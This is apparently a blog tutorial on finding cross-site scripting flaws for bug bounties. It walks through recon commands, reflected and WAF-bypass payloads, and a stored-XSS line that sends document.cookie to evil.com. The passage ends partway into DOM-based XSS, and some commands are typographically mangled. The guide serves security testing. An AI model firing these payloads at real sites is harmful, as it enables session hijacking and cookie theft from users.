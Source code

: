 ### Introduction


In the bug bounty world, Cross-Site Scripting (XSS) is one of the most common vulnerabilities hunters encounter. Yet, finding valid XSS vulnerabilities on modern applications requires patience, creativity, and skill. This guide provides a step-by-step approach to identify XSS vulnerabilities in real-world targets, from scoping to exploiting.

Whether you're an experienced bug bounty hunter or just starting out, this article will show you how to systematically search for XSS vulnerabilities and increase your chances of getting that bounty payout.

### 1. Start with Recon: Mapping Your Target

Before diving into XSS hunting, gather all possible attack surfaces on the target. This helps you identify input points, endpoints, and URLs where XSS vulnerabilities may lurk.

#### Tools for Recon:

-   **Subdomain Enumeration**
    -   Use tools like Subfinder, Assetfinder, or Amass to find all reachable subdomains.

Bash

```
subfinder -d target.com -o subdomains.txt

```

-   **URL Gathering**
    -   Gather all URLs using tools like gau (Get All URLs) and Waybackurls:

Bash

```
gau target.com | tee urls.txt
waybackurls target.com | tee -a urls.txt

```

These tools collect URLs from caches, public archives, and the application's history. Look out for query parameters — they’re usually great candidates for XSS testing.

### 2. Identify Parameters and Inputs to Test

Once you've collected URLs, filter them to find those containing parameters or input fields.

-   Use GF Patterns to extract URLs with parameters related to XSS:

Bash

```
gf xss urls.txt > xss_urls.txt

```

-   **Tools for Parameter Discovery:**
    -   ParamSpider: Crawl target websites to identify hidden parameters.

Bash

```
paramspider -d target.com -o params.txt

```


```
* Burp Suite: Use Intruder and Repeater to explore different inputs and parameters interactively.

```

These steps help you focus on vulnerable input points instead of wasting time on irrelevant parts of the target.

### 3. Testing for Reflected XSS

With the URLs and parameters in hand, the next step is to test for reflected XSS — where the payload is reflected immediately in the response.

#### Basic Payloads for Reflected XSS:

-   Test using a simple alert payload:

HTML

```
https://target.com/search?q=<script>alert(1)</script>

```

-   If the above payload doesn't work, try encoding it:

HTML

```
https://target.com/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E

```

-   Use Burp Suite to observe the server's response and see how the input is handled. Check if the input gets reflected directly in the HTML body, attributes, or in JavaScript contexts.

### 4. Hunting for Stored XSS

In Stored XSS, the malicious script is saved on the server and triggered when users access the stored content (e.g., in comments or profiles).

#### Where to Look for Stored XSS:

-   Comment sections
-   User profiles or status updates
-   Feedback forms
-   Message boards or chat applications

#### Example Payload:

If the application allows rich text input, try injecting this:

HTML

```
<script>document.location=’https://evil.com?cookie=' + document.cookie</script>

```


This payload attempts to steal the session cookie by sending it to a malicious site. If the XSS is successful, the attacker can hijack the session or impersonate the victim.

### 5. Bypassing Filters and WAFs

Modern applications often have input sanitization and Web Application Firewalls (WAFs) to block common XSS payloads. However, creative payloads and encoding techniques can help bypass these protections.

#### Tips to Bypass WAFs:













-   Unicode Encoding:

HTML

```
<script>alert\u0061</script>

```


-   HTML Entities:

HTML

```
<img src=x onerror=”alert(1)”>

```


-   Event Handlers in Tags:

HTML

```
<svg onload=alert(1)></svg>

```


-   Use Dalfox or KXSS to automate WAF bypass testing:

Bash

```
dalfox file xss_urls.txt — waf-evasion

```


### 6. DOM-Based XSS: Client-Side Vulnerabilities

DOM-based XSS occurs when JavaScript code modifies the DOM based on user input, leading to the execution of malicious code directly in the browser.

#### How to Test for DOM XSS:

-   Look for JavaScript snippets like this in the page source:

JavaScript

```
let input = location.search.split(‘=’)[1];

```


